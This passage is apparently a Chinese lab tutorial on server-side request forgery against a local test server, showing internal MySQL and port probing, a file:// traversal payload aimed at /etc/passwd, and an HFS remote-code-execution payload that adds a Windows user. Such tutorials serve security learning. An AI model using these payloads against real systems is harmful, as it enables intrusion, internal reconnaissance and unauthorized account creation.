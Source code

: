 在想翻译的网站这里直接输入 http://192.168.168.128:8089/SSRF/1.php

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ81gsAzy2M1YibTsuPsKhU3Zyq2Sdl94QfR8UPwc7VS4t7td5Oo55WnyB9RTJr6Nv40jWVClD4VQibg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



换成http://127.0.0.1:8089/SSRF/1.php 可能会更直接点

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ81gsAzy2M1YibTsuPsKhU3ZpKgZhx5WI8a1EL3w9fbMQ0FXJPURYVpBtzgHUcBdGXIYD7TR9ib8RMQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



可以发现通过这样的方式会让攻击者以内部网络身份访问文件(也就是说这样可以让我们访问一些原本不允许外网访问的文件) 通过SSRF漏洞访问了内网资源

试试访问Mysql 如果来自外部自然是被拒绝的 而如果是内部则会被允许



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ81gsAzy2M1YibTsuPsKhU3ZnxBH1lE4LPJka8RuqibAvn0XlgR40ElibVDNliajmYudzhrwpkGCs9mXw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

直接访问数据库接口是不被允许的

在页面输入http://127.0.0.1:3306提交 会发现可以查询到数据

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ81gsAzy2M1YibTsuPsKhU3ZWQqOJNp1ISOKtNHKGsMq8AibyLCia5gyk2R05VSDcEfvJTRVkiapSOZicw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

进一步思考 这样可以对内网的端口进行探测 实战中需要用字典跑一跑内网地址

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ81gsAzy2M1YibTsuPsKhU3Z4jrotPfCDDISSIHmUUToXib9d6e1n9TWGHM5SU84lfjEaWaxTjoUTqA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

**tips**

如果以file协议去访问 结合目录穿越漏洞 可以得到敏感信息

如：**?url=file:///../../../../../../etc/password**



**HFS****的****RCE**

- 
- 
- 
- 

```
找到的版本只有2.3m 此时已不存在该RCE所以仅写出payload当思路http://127.0.0.1:8080/?search==%00{.exec|cmd.exe /c [Command-String].} http://127.0.0.1:8080/?search==%00{.exec|cmd.exe /c net user test1234 1234 /add.} 添加一个用户test1234
```

- 
- 

```
https://pan.baidu.com/s/1bp96ECJ    //CSRFTester https://www.t00ls.net/articles-41070.html   //SSRF漏洞文章
```



------
